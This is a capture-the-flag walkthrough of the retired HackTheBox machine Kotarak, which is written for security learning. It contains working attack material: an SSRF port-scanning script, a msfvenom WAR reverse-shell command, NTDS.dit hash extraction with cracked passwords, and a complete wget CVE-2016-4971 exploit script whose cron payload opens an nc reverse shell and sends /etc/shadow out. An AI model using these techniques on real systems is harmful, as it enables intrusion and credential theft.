hackthebox Kotarak
Released: 23 Sep 2017 / Pwned: October 24th 2019 - [+] Solved whilst Retired

On Kotarak, you use the web proxy provided to bruteforce for internally running services. Following the open ports, you find a backup file containing Apache Tomcat credentials. Get a shell on the system by uploading a .war file to Apache Tomcat, and priv-esc to the next user by extracting and cracking a password hash from a SYSTEM hive. Priv-esc to root involves exploiting wget.
1) Nmap
Initial TCP all-ports scan:
nmap -p- -T4 -oN nmap/tcp-allports.txt 10.10.10.55
Run service enumeration, default scripts and OS detection against open TCP ports:
nmap -p 22,8009,8080,60000 -T4 -sV -sC -O -oN nmap/tcp-openports.txt 10.10.10.55
-sV service enumeration
-sC default scripts
-O OS detection
-oN default output
Results:
root@gotham:~/ctf/kotarak# mkdir nmap
root@gotham:~/ctf/kotarak# nmap -p- -T4 -oN nmap/tcp-allports.txt 10.10.10.55
[...]
PORT STATE SERVICE
22/tcp open ssh
8009/tcp open ajp13
8080/tcp open http-proxy
60000/tcp open unknown
root@gotham:~/ctf/kotarak# nmap -p 22,8009,8080,60000 -T4 -sV -sC -O -oN nmap/tcp-openports.txt 10.10.10.55
[...]
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 2048 e2:d7:ca:0e:b7:cb:0a:51:f7:2e:75:ea:02:24:17:74 (RSA)
| 256 e8:f1:c0:d3:7d:9b:43:73:ad:37:3b:cb:e1:64:8e:e9 (ECDSA)
|_ 256 6d:e9:26:ad:86:02:2d:68:e1:eb:ad:66:a0:60:17:b8 (ED25519)
8009/tcp open ajp13 Apache Jserv (Protocol v1.3)
| ajp-methods:
| Supported methods: GET HEAD POST PUT DELETE OPTIONS
| Potentially risky methods: PUT DELETE
|_ See https://nmap.org/nsedoc/scripts/ajp-methods.html
8080/tcp open http Apache Tomcat 8.5.5
|_http-favicon: Apache Tomcat
| http-methods:
|_ Potentially risky methods: PUT DELETE
|_http-title: Apache Tomcat/8.5.5 - Error report
60000/tcp open http Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Kotarak Web Hosting
[...]
Analysis:
• 22/ssh - Nothing to do here, but useful to know for later.
• 8009/tcp - Apache Jserv, which is serving Apache Tomcat on port 8080.
• 8080/tcp - Apache Tomcat, which is a “pure Java� HTTP web server where you can run java code. Credentials are required to access its manager portal.
• 60000/tcp - “Kotarak Web Hosting� - looks interesting.
I added kotorak.htb to my hosts file.
root@gotham:~/ctf/kotarak# nano /etc/hosts
[...]
10.10.10.55 kotarak.htb
2) 60000/tcp - Kotarak Web Hosting
Visit http://kotarak.htb:60000
This Kotarak site appears to be a web proxy.

We can use this site to browse other sites, like google.com, or your own malicious server, or the other services running at localhost on the box, like Apache Tomcat on port 8080 - http://localhost:8080
2a) Bruteforce Internal Services
Because this proxy allows us to browse localhost, we can use it to bruteforce for/browse to internally-running services running on different ports on the target system.
You could do this with Burp Intruder, but I dont have premium so it would be incredibly slow.
Instead, I wrote a small python script.
The script:
• sends a GET request to all ports from 1 to 65,535
• retrieves the output
• and marks all ports which returned more than 2 bytes as open (closed ports returned \n\n)
import requests
for port in range(1,65535):
url = "http://kotarak.htb:60000/url.php?path=http://localhost:" + str(port)
response = requests.get(url)
if len(response.content) > 2:
print(port)
print("\nFinished!")
root@gotham:~/ctf/kotarak# python3 internal-ports.py
22
90
110
200
320
888
3306
8080
It looks like there are a few internally running services!
90, 110, 200, 320, 888 and 3306.
A quick browse of each of them reveals:
• 90 - “Under Construction�
• 110 - “Test Page. Absolutely nothing to see here�
• 200 - “Hello World�
• 320 - “Accounting - Super Sensitive Login Page�
• 888 - “Simple File Viewer�
• 3306 - Most likely MySQL
3) Simple File Viewer
Use the Kotarak web proxy to view the Simple File Viewer running on localhost port 888.

Files!

Following the link to the ‘backup’ file, the URL is now incorrect. We're browsing the Kotarak proxy URL (not localhost:888/<backup file>)

Find the location where backup points to by viewing the source of http://kotarak.htb:60000/url.php?path=http://localhost:888.
To view the ‘backup’ file, the URL parameters are ?doc=backup

backup is located at http://kotarak.htb:60000/url.php?path=http://localhost:888?doc=backup

Nothing?
Right click > view source.

backup is a backup of the tomcat_users.xml file, which contains a set of admin credentials.
You can log in to Apache Tomcat with these.
Gain Access
4) Apache Tomcat .war shell
With Apache Tomcat credentials, we can log in to Apache Tomcat and upload a .war reverse shell.
Browse to http://kotarak.htb:8080/manager/html and log in with admin / 3@g01PdhB!

You should be at the /manager portal.
From here we can upload a .war reverse shell.

Generate a .war reverse shell with msfvenom.
root@gotham:~/ctf/kotarak# msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.11 LPORT=9001 -f war -o lulz.war
Payload size: 1097 bytes
Final size of war file: 1097 bytes
Saved as: lulz.war
Navigate to Select WAR file to upload > Browse and upload your .war reverse shell.
Start a listener on your attacking machine to receive the shell.
root@gotham:~/ctf/kotarak# nc -lvnp 9001
listening on [any] 9001 ...
And run your uploaded .war by visiting to link to you reverse shell under Applications.
You should receive a shell on your listener!
Priv-Esc to atanas
5) pentest_data
In tomcat's /home folder, we find pentest_data.
Transfer the pentest_data over to your attacking system by starting a python server on Kotarak and wget'ing the files to your attacking machine.
tomcat@kotarak-dmz:/home/tomcat/to_archive/pentest_data$ python -m SimpleHTTPServer
[...]
root@gotham:~/ctf/kotarak# wget -q http://10.10.10.55:8000/20170721114637_default_192.168.110.133_psexec.ntdsgrab._089134.bin
root@gotham:~/ctf/kotarak# wget -q http://10.10.10.55:8000/20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit
A quick google of psexec.ntdsgrab reveals that these files are generated by a metasploit module - psexec_ntdsgrab.rb - which retreives the NTDS.dit database and the SYSTEM registry hive.
https://github.com/rapid7/metasploit-framework/blob/master/modules/auxiliary/admin/smb/psexec_ntdsgrab.rb
During pentests where the attacker has gained access to the Windows Domain Controller, it's a common move to extract the password hashes of all the domain users from Active Directory for offline cracking.
For this, the attacker needs to retrieve 2 files:
• NTDS.DIT - This is the main Active Directory database file. It stores everything held in Active Directory - group policies, users, password hashes etc.
• SYSTEM registry hive - SYSTEM is part of the Windows registry. It contains the key needed to decrypt NTDS.DIT
Examine the files.
The .dit is NTDS.dit.
The .bin is the SYSTEM registry hive.
I renamed the files accordingly.
root@gotham:~/ctf/kotarak/pentest_data# file *
20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit: Extensible storage engine DataBase, version 0x620, checksum 0x16d44752, page size 8192, DirtyShutdown, Windows version 6.1
20170721114637_default_192.168.110.133_psexec.ntdsgrab._089134.bin: MS Windows registry file, NT/2000 or above
root@gotham:~/ctf/kotarak/pentest_data# mv 20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit ntds.dit
root@gotham:~/ctf/kotarak/pentest_data# mv 20170721114637_default_192.168.110.133_psexec.ntdsgrab._089134.bin systemhive
root@gotham:~/ctf/kotarak/pentest_data# ls
ntds.dit systemhive
We can extract the Active Directory password hashes from NTDS.dit using Impacket's secretsdump.py
https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py
root@gotham:~/ctf/kotarak/pentest_data# secretsdump.py LOCAL -ntds ntds.dit -system systemhive
Impacket v0.9.21-dev - Copyright 2019 SecureAuth Corporation
[*] Target system bootKey: 0x14b6fb98fedc8e15107867c4722d1399
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Searching for pekList, be patient
[*] PEK # 0 found and decrypted: d77ec2af971436bccb3b6fc4a969d7ff
[*] Reading and decrypting hashes from ntds.dit
Administrator:500:aad3b435b51404eeaad3b435b51404ee:e64fe0f24ba2489c05e64354d74ebd11:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WIN-3G2B0H151AC$:1000:aad3b435b51404eeaad3b435b51404ee:668d49ebfdb70aeee8bcaeac9e3e66fd:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:ca1ccefcb525db49828fbb9d68298eee:::
WIN2K8$:1103:aad3b435b51404eeaad3b435b51404ee:160f6c1db2ce0994c19c46a349611487:::
WINXP1$:1104:aad3b435b51404eeaad3b435b51404ee:6f5e87fd20d1d8753896f6c9cb316279:::
WIN2K31$:1105:aad3b435b51404eeaad3b435b51404ee:cdd7a7f43d06b3a91705900a592f3772:::
WIN7$:1106:aad3b435b51404eeaad3b435b51404ee:24473180acbcc5f7d2731abe05cfa88c:::
atanas:1108:aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd18041b8fe:::
[*] Kerberos keys from ntds.dit
Administrator:aes256-cts-hmac-sha1-96:6c53b16d11a496d0535959885ea7c79c04945889028704e2a4d1ca171e4374e2
Administrator:aes128-cts-hmac-sha1-96:e2a25474aa9eb0e1525d0f50233c0274
[...]
We don't care about any of the Kerboros keys (because we're not attacking a domain controller?).
Put the hashes you're interested in cracking into a file, and trim the hash from each line using awk.
Each item is separated by a :. The password hash is the 4th item on the line
root@gotham:~/ctf/kotarak/pentest_data# nano secretsdump.txt
Administrator:500:aad3b435b51404eeaad3b435b51404ee:e64fe0f24ba2489c05e64354d74ebd11:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WIN-3G2B0H151AC$:1000:aad3b435b51404eeaad3b435b51404ee:668d49ebfdb70aeee8bcaeac9e3e66fd:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:ca1ccefcb525db49828fbb9d68298eee:::
WIN2K8$:1103:aad3b435b51404eeaad3b435b51404ee:160f6c1db2ce0994c19c46a349611487:::
WINXP1$:1104:aad3b435b51404eeaad3b435b51404ee:6f5e87fd20d1d8753896f6c9cb316279:::
WIN2K31$:1105:aad3b435b51404eeaad3b435b51404ee:cdd7a7f43d06b3a91705900a592f3772:::
WIN7$:1106:aad3b435b51404eeaad3b435b51404ee:24473180acbcc5f7d2731abe05cfa88c:::
atanas:1108:aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd18041b8fe:::
root@gotham:~/ctf/kotarak/pentest_data# awk -F : '{print $4}' secretsdump.txt > hashdump.txt
root@gotham:~/ctf/kotarak/pentest_data# cat hashdump.txt
e64fe0f24ba2489c05e64354d74ebd11
31d6cfe0d16ae931b73c59d7e0c089c0
668d49ebfdb70aeee8bcaeac9e3e66fd
ca1ccefcb525db49828fbb9d68298eee
160f6c1db2ce0994c19c46a349611487
6f5e87fd20d1d8753896f6c9cb316279
cdd7a7f43d06b3a91705900a592f3772
24473180acbcc5f7d2731abe05cfa88c
2b576acbe6bcfda7294d6bd18041b8fe
Crack the hashes with hashkiller.co.uk - https://hashkiller.co.uk/Cracker/NTLM

2 results!
Administrator / f16tomcat! and atanas / Password123!
As tomcat, you can su (switch user) to atanas with f16tomcat!.
tomcat@kotarak-dmz:/$ su atanas
Password: f16tomcat!
atanas@kotarak-dmz:/$ cd ~
atanas@kotarak-dmz:~$ cat user.txt
93f844f50491ef797c9c1b601b4bece8
Priv-Esc to root
6) /root/app.log
Search for files owned by atanas.
There are 3 interesting results - /root/flag.txt, /root/app.log, and /usr/bin/authbind.
atanas@kotarak-dmz:/tmp$ find / -user atanas 2>/dev/null | grep -v proc
[...]
/root/flag.txt
/root/app.log
/home/atanas
/home/atanas/.bashrc
/home/atanas/.profile
/home/atanas/user.txt
/home/atanas/.cache
/home/atanas/.cache/motd.legal-displayed
/home/atanas/.bash_logout
/home/atanas/.bash_history
/home/atanas/.sudo_as_admin_successful
/home/atanas/.nano
/[...]
/usr/bin/authbind
It appears we can read the contents of /root.
atanas@kotarak-dmz:/tmp$ cat /root/flag.txt
Getting closer! But what you are looking for can't be found here.
But no flag :/
As the mentions, it's somewhere else.
Check /root/app.log.
atanas@kotarak-dmz:/root$ cat app.log
10.0.3.133 - - [20/Jul/2017:22:48:01 -0400] "GET /archive.tar.gz HTTP/1.1" 404 503 "-" "Wget/1.16 (linux-gnu)"
10.0.3.133 - - [20/Jul/2017:22:50:01 -0400] "GET /archive.tar.gz HTTP/1.1" 404 503 "-" "Wget/1.16 (linux-gnu)"
10.0.3.133 - - [20/Jul/2017:22:52:01 -0400] "GET /archive.tar.gz HTTP/1.1" 404 503 "-" "Wget/1.16 (linux-gnu)"
app.log looks like the output of python -m SimpleHTTPServer.
10.0.3.133 is connecting to us and trying to download archive.tar.gz every 2 minutes.
However, it's trying to do it using an old version of wget - version 1.16.
7) wget exploit
root@gotham:~/ctf/kotarak# searchsploit -w wget
--------------------------------------------------- --------------------------------------------
Exploit Title | URL
--------------------------------------------------- --------------------------------------------
GNU Wget 1.x - Multiple Vulnerabilities | https://www.exploit-db.com/exploits/24813
GNU Wget < 1.18 - Access List Bypass / Race Condit | https://www.exploit-db.com/exploits/40824
GNU Wget < 1.18 - Arbitrary File Upload / Remote C | https://www.exploit-db.com/exploits/40064
[...]
1.16 is vulnerable to remote code execution :)
https://www.exploit-db.com/exploits/40064
Summary of the exploit
• Create an ftp directory and put a .wgetrc file in it
• Start a web and ftp server on your attacking host (kotarak)
• Run wget-exploit.py
• Wait for the victim to wget a file from your attacking host (kotarak)
• The provided wget-exploit.py scripts responds with a 302, redirecting the victim's request to a .wgetrc file in the attacker's FTP server
• The .wgetrc gets downloaded to the victim machine. This .wgetrc file modifies the startup commands of wget, so that when wget next starts up it sends over /etc/shadow and sets up a root cron job (we'll specify a reverse shell) to run every minute
• Start a listener on the attacking host to receive the root cron job reverse shell
• Wait 1 minute for the root cron job to run, and the attacker will have a reverse shell as root on the victim host
7a) Set up FTP
Set up an FTP directory and write the .wgetrc file.
atanas@kotarak-dmz:/$ mkdir /tmp/ftp; cd /tmp/ftp
atanas@kotarak-dmz:/tmp/ftp$ vi .wgetrc
post_file = /etc/shadow
output_document = /etc/cron.d/wget-root-shell
7b) Modify exploit script
Modify the wget-exploit.py script
• Change HTTP_LISTEN_IP = '192.168.57.1' to HTTP_LISTEN_IP = '0.0.0.0'
◇ 10.10.10.55 doesn't work, and neither does 127.0.0.1.
◇ 0.0.0.0 means ‘listen on every available interface’.
• Change FTP_HOST = '192.168.57.1' to FTP_HOST = '10.10.10.55'
• Change the ROOT_CRON variable to a reverse shell
◇ ROOT_CRON = "* * * * * root rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.11 9005 >/tmp/f \n"
Here's what my wget-exploit.py script looked like:
#!/usr/bin/env python
#
# Wget 1.18 < Arbitrary File Upload Exploit
# Dawid Golunski
# dawid( at )legalhackers.com
#
# http://legalhackers.com/advisories/Wget-Arbitrary-File-Upload-Vulnerability-Exploit.txt
#
# CVE-2016-4971
#
import SimpleHTTPServer
import SocketServer
import socket;
class wgetExploit(SimpleHTTPServer.SimpleHTTPRequestHandler):
def do_GET(self):
# This takes care of sending .wgetrc
print "We have a volunteer requesting " + self.path + " by GET :)\n"
if "Wget" not in self.headers.getheader('User-Agent'):
print "But it's not a Wget :( \n"
self.send_response(200)
self.end_headers()
self.wfile.write("Nothing to see here...")
return
print "Uploading .wgetrc via ftp redirect vuln. It should land in /root \n"
self.send_response(301)
new_path = '%s'%('ftp://anonymous@%s:%s/.wgetrc'%(FTP_HOST, FTP_PORT) )
print "Sending redirect to %s \n"%(new_path)
self.send_header('Location', new_path)
self.end_headers()
def do_POST(self):
# In here we will receive extracted file and install a PoC cronjob
print "We have a volunteer requesting " + self.path + " by POST :)\n"
if "Wget" not in self.headers.getheader('User-Agent'):
print "But it's not a Wget :( \n"
self.send_response(200)
self.end_headers()
self.wfile.write("Nothing to see here...")
return
content_len = int(self.headers.getheader('content-length', 0))
post_body = self.rfile.read(content_len)
print "Received POST from wget, this should be the extracted /etc/shadow file: \n\n---[begin]---\n %s \n---[eof]---\n\n" % (post_body)
print "Sending back a cronjob script as a thank-you for the file..."
print "It should get saved in /etc/cron.d/wget-root-shell on the victim's host (because of .wgetrc we injected in the GET first response)"
self.send_response(200)
self.send_header('Content-type', 'text/plain')
self.end_headers()
self.wfile.write(ROOT_CRON)
print "\nFile was served. Check on /root/hacked-via-wget on the victim's host in a minute! :) \n"
return
HTTP_LISTEN_IP = '0.0.0.0'
HTTP_LISTEN_PORT = 80
FTP_HOST = '10.10.10.55'
FTP_PORT = 21
ROOT_CRON = "* * * * * root rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.11 9005 >/tmp/f \n"
handler = SocketServer.TCPServer((HTTP_LISTEN_IP, HTTP_LISTEN_PORT), wgetExploit)
print "Ready? Is your FTP server running?"
sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
result = sock.connect_ex((FTP_HOST, FTP_PORT))
if result == 0:
print "FTP found open on %s:%s. Let's go then\n" % (FTP_HOST, FTP_PORT)
else:
print "FTP is down :( Exiting."
exit(1)
print "Serving wget exploit on port %s...\n\n" % HTTP_LISTEN_PORT
handler.serve_forever()
Write or transfer your wget-exploit.py script to Kotarak (I just used vi and copy/pasted).
atanas@kotarak-dmz:/tmp/ftp$ vi wget-exploit.py
#!/usr/bin/env python
#
# Wget 1.18 < Arbitrary File Upload Exploit
[...]
7c) Start FTP and run exploit script
When listing atanas's files, authbind was listed.
authbind allows us to start services on privileged ports
atanas@kotarak-dmz:/tmp/ftp$ find / -perm -u=s 2>/dev/null
[...]
/usr/lib/authbind/helper
Start the FTP server on privileged port 21 using authbind, and as a background job with &
atanas@kotarak-dmz:/tmp/ftp$ authbind python -m pyftpdlib -p 21 -w &
Start a listener on your attacking host (your kali machine) to receive the (eventual) reverse shell
root@gotham:~/ctf/kotarak/ftp# nc -lvnp 9005
listening on [any] 9005 ...
And lastly, run wget-exploit.py.
You have to wait a little for this to exploit to work, because it's all cron jobs, but you'll eventually a receive a root shell on your listener.
atanas@kotarak-dmz:/tmp/ftp$ authbind python wget-exploit.py
Ready? Is your FTP server running?
[I 2019-10-22 07:48:41] 10.10.10.55:57330-[] FTP session opened (connect)
FTP found open on 10.10.10.55:21. Lets go then
Serving wget exploit on port 80...
We have a volunteer requesting /archive.tar.gz by GET :)
Uploading .wgetrc via ftp redirect vuln. It should land in /root
10.0.3.133 - - [22/Oct/2019 07:50:01] "GET /archive.tar.gz HTTP/1.1" 301 -
Sending redirect to ftp://anonymous@10.10.10.55:21/.wgetrc
[I 2019-10-22 07:50:01] 10.0.3.133:39252-[] FTP session opened (connect)
[I 2019-10-22 07:50:01] 10.0.3.133:39252-[anonymous] USER 'anonymous' logged in.
[I 2019-10-22 07:50:01] 10.0.3.133:39252-[anonymous] RETR /tmp/ftp/.wgetrc completed=1 bytes=70 seconds=0.0
[I 2019-10-22 07:50:01] 10.0.3.133:39252-[anonymous] FTP session closed (disconnect).
We have a volunteer requesting /archive.tar.gz by POST :)
Received POST from wget, this should be the extracted /etc/shadow file:
---[begin]---
root:*:17366:0:99999:7:::
daemon:*:17366:0:99999:7:::
bin:*:17366:0:99999:7:::
sys:*:17366:0:99999:7:::
sync:*:17366:0:99999:7:::
games:*:17366:0:99999:7:::
man:*:17366:0:99999:7:::
lp:*:17366:0:99999:7:::
mail:*:17366:0:99999:7:::
news:*:17366:0:99999:7:::
uucp:*:17366:0:99999:7:::
proxy:*:17366:0:99999:7:::
www-data:*:17366:0:99999:7:::
backup:*:17366:0:99999:7:::
list:*:17366:0:99999:7:::
irc:*:17366:0:99999:7:::
gnats:*:17366:0:99999:7:::
nobody:*:17366:0:99999:7:::
systemd-timesync:*:17366:0:99999:7:::
systemd-network:*:17366:0:99999:7:::
systemd-resolve:*:17366:0:99999:7:::
systemd-bus-proxy:*:17366:0:99999:7:::
syslog:*:17366:0:99999:7:::
_apt:*:17366:0:99999:7:::
sshd:*:17366:0:99999:7:::
ubuntu:$6$edpgQgfs$CcJqGkt.zKOsMx1LCTCvqXyHCzvyCy1nsEg9pq1.dCUizK/98r4bNtLueQr4ivipOiNlcpX26EqBTVD2o8w4h0:17368:0:99999:7:::
---[eof]---
Sending back a cronjob script as a thank-you for the file...
It should get saved in /etc/cron.d/wget-root-shell on the victims host (because of .wgetrc we injected in the GET first response)
10.0.3.133 - - [22/Oct/2019 07:52:01] "POST /archive.tar.gz HTTP/1.1" 200 -
File was served. Check on /root/hacked-via-wget on the victims host in a minute! :)
A connection!
We're root :)
listening on [any] 9005 ...
connect to [10.10.14.11] from (UNKNOWN) [10.10.10.55] 43644
/bin/sh: 0: cant access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
# ls -alh
total 36K
drwx------ 2 root root 4.0K Oct 22 11:52 .
drwxr-xr-x 21 root root 4.0K Oct 22 09:25 ..
